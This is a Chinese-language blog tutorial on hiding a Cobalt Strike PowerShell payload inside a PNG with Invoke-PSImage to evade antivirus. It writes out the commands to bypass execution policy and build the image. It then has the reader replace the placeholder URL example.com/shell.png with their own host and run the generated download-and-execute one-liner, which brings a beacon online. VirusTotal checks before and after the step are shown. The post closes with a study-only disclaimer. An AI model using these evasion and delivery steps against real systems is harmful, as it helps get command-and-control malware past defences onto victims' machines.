 ```yaml
---
layout:     post
title:      Invoke-PSImage实现ps脚本免杀
subtitle:   Ps脚本免杀
date:       2020-05-17
author:     Cooltige
header-img: img/post-bg-ps.jpg
catalog: true
tags:
    - 免杀
---
```


# Invoke-PSImage
Invoke-PSImage可以将一个PowerShell脚本中的字节嵌入到PNG图像文件的像素之中，并生成一行执行命令来帮助我们从文件或Web（传递-Web标记）执行它们。

它会利用图片中每个像素点最后4位有效位的2个颜色值来存储Payload数据，虽然图片质量会受到影响，但是一般来说是看不出来有多大区别的。图片需要存储为PNG格式，由于Payload数据存储在颜色值中，因此这种格式可以进行无损压缩并且不会影响到Payload的执行。它可以接受目前绝大多数的图片类型作为输入，但输出必须为PNG格式，因为输出的图片数据需要是无损的。

图片的每一个像素都需要存储脚本的一个字节，所以你需要根据脚本中的字节数据大小来选择图片（尽可能多的像素点）。

项目地址:`https://github.com/peewpw/Invoke-PSImage`

# 实验前准备
### cs生成powershell脚本

![](/img/ps_bypass_av/dc70ceed77fcabc703cdd5d3f02def6c.png)

payload.ps1
### 准备图片
![](/img/ps_bypass_av/19d3f2e1cd905f9b8b037759249ff2ae.png)

1.jpg

### Invoke-PSImage文件
Invoke-PSImage.ps1
# 开始实验
首先将生成的payload.ps1进行在线查杀
virustotal:`www.virustotal.com`
![](/img/ps_bypass_av/9e700a3d729cd2970c156ecf4acfee77.png)

然后将 payload.ps1 1.jpg Invoke-PSImage.ps1 放在一个文件夹(这里我放在桌面)
```
C:\Users\Administrator\Desktop>powershell -exec bypass

PS C:\Users\Administrator\Desktop> Import-Module .\Invoke-PSImage.ps1

PS C:\Users\Administrator\Desktop>Invoke-PSImage -Script .\payload.ps1 -Image .\1.jpg -Out .\shell.png -Web
```

![](/img/ps_bypass_av/d0d0e0fe549dfd0365fdeaee67498b0c.png)

生成一个shell.png的免杀图片文件

将生成的文件拿去查杀

![](/img/ps_bypass_av/f1294cb6d52dfa01aa17020ae9a446d7.png)

将生成的命令中的`http://example.com/shell.png`替换为你免杀图片的url，带入powershell中执行

![](/img/ps_bypass_av/185f3178d181147b1671c92080b4620d.png)

![](/img/ps_bypass_av/77af8c88af3f28d846b0dd431174eace.png)

完成上线

**本站提供的所有内容仅供学习、分享与交流，禁止用于非法途径，通过使用本站内容随之而来的风险与本站无关**
